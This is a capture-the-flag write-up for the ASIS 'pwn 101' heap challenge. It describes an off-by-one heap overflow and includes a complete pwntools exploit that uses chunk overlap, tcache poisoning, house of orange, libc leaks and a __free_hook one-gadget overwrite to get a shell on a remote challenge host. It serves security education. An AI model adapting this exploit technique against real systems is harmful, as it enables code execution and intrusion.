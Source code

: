 ## pwn 101

We have the following action permitted:

 - Show an address: we have three global var in bss that we'll explain just below
  ```
      printf("Phone Number: %d\n", *((_QWORD *)&phone_numbers_list + 3 * v1));
      printf("Name        : %s\n", *((_QWORD *)&nameAddress_list_global_bss + 3 * v1));
      printf("Description : %s\n", description_list[3 * v1]);
  ```

 - Add an address: here we add a new address, by inserting his number in phone_number_list[ 3*i ] that is a integer array.
   then we insert the name of the address that resides in heap ( malloc(0x20) and read(..,0x20) ).
   the last is the description, that resides in heap and is allocated with malloc(length++), and length is signed and must be >=0 and <=0x2000

 - Delete an address: if the index is valid, we free in order, addresse's name, and description, 
   then we set to zero each address indexed in the respective array

The vulnerability is that  we are able to write a description length we declared plus one byte.
  ```
   ..
   description_list[3 * (signed int)i] = malloc(desc_length++);
   ..
   read(0, description_list[3 * (signed int)i], desc_length);
  ```
in this case we should probabily give a try to shrinking chunk, or extending

```
pwndbg> checksec
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Solution

 - use the one-byte to extend the size of the next chunk
 - leak the heap, then free it again and with the overlapping chunk, corrupt the tcachebin to point a chunk that contains the top_chunk->size
 - change the top_chunk size to use house of orange (not the FSOP part)
 - now we can get some unsorted chunk back from malloc, and so leak of the arena
 - and last use again the one-byte to overlap and then again corrupt the tcachebin by inserting __free_hook, then insert one gadget

```
from pwn import *
import time

debug = int(sys.argv[1])
online=False
if( debug == 0):
  r = remote("82.196.10.106", 29099)
  online=True
elif(debug == 1):
  libcz = ELF("/lib/x86_64-linux-gnu/libc.so.6")
  mainz = ELF("./pwn101.elf")
  r = mainz.process()
  if(debug == 2):
    gdb.attach(r, """source ./script.py""") #some breakpoint etc..?

def halt():
  while True:
    log.info( r.recvline() )

def add( length, name, desc):
  r.recvuntil("> ")
  r.sendline('1')
  r.recvuntil("Description Length:")
  r.sendline(str(length))
  r.recvuntil("Phone Number:")
  r.sendline(str(9112223))
  r.recvuntil("Name:")
  r.sendline( name)
  r.recvuntil("Description")
  r.send( desc )

def show( index ):
  r.recvuntil("> ")
  r.sendline('2')
  r.recvuntil("Index:")
  r.sendline( str(index) )

def delete(index):
  r.recvuntil("> ")
  r.sendline('3')
  r.recvuntil("Index:")
  r.sendline(str(index))

def interactive():
  if not online:
    print( """/usr/bin/gdb -q  {0} {1}""".format( r.argv[0], r.pid ) )
  r.interactive()

def exploit(argv):
 #First we need to overlap 
 add(0x88, "Pino", "A"*0x87 + "\n")     #0
 add(0x98, "GG", "B"*0x78 + "\xa1\x00") #1
 add(0x18, "Barrier1", "Barrier2")      #2
 
 #Now that we mapped the chunks we need to use the one-byte 
 delete(0)
 add(0x88, "Pino2", "A"*0x88+ "\xa1")   #0
 delete(1)
 #we get back the overlapping chunk, knowing that we can after corrupt tcache
 add(0x98, "\x0a", "\x0a")              #1

 #now we leak the heap
 show(1)
 r.recvuntil("Description")
 r.recvline()#empty
 heap_leak=u64( ( "\x00" + r.recvline().rstrip() ).ljust(8, "\x00") )
 log.info("leak heap 0x%x" % heap_leak)
 heap_base = heap_leak - 0x1300 #we found on remote is either true
 log.info("heap base address 0x%x" % heap_base)

 #now we can corrupt tcachebin, insert the top_chunk, overwrite his size and use house of orange
 add(0x98, "\x0a", "\x0a")              #3
 add(0x18, "some space", "some space")  #4
 delete(1)
 delete(3)
 heap_top_addr= heap_base + 0x14f0
 heap_top_size= 0x1fb11                 #is the same in remote, we can easyly find it
 heap_new_size= 0xb11
 add(0x98, "\x0a", "A"*0x28 + "B"*0x8 + p64( heap_top_addr ) )  #1
 add(0x98, "\x0a", "here")              #3
 delete(4)
 add(0x98, "\x0a", p64(0x0) + p64(heap_new_size)) #4
 add(0xb10 + 0x300, "still_old_heap", "new_heap_here")  #5
 
 #Leak arena
 add(0x98, "new_heap_here_2", "leaklib\n" ) #6  #we don't require all top because we'll need next
 show(6)
 r.recvuntil("Description")
 r.recvline() #empty
 libc_leak=u64( ( "\x00" + r.recvline().rstrip() ).ljust(8, "\x00") )>>8
 log.info("leak libc 0x%x" % libc_leak)
 libc_base= libc_leak - 0x3dac20 - 0x58
 if online:
   libc_base = libc_leak - 0x3ebc40 - 0x60  #after some guessing we found the right arena offset (the libc wasn't given with the challange)
 log.info("libc base addr 0x%x" % libc_base)
 
 free_hook_offset= 0x3dc8a8
 if online:
   free_hook_offset= 0x3ed8e8

 one_gadget_offset=0xfcc6e
 if online:
   one_gadget_offset=0x4f322

 add(0x88, "h1", "h2")                  #7
 add(0xa8, "h3", "h"*0x68 + p64(0x91))  #8
 delete(7)
 add(0x88, "h1", "A"*0x88 + "\x91")     #7
 delete(8)
 add(0x88, "finaly", "A"*0x28 + p64(0xb1) + p64( libc_base + free_hook_offset ) ) #8

 add(0xa8, "barrier", "barrier")#9
 delete(0)
 add(0xa8, "ok", p64(libc_base + one_gadget_offset) ) #0
 delete(2)
 interactive()
 #$ cat flag.txt
 #ASIS{____fr3E_ho0K_0Of_by_0n3____}

exploit(sys.argv[1:])
```

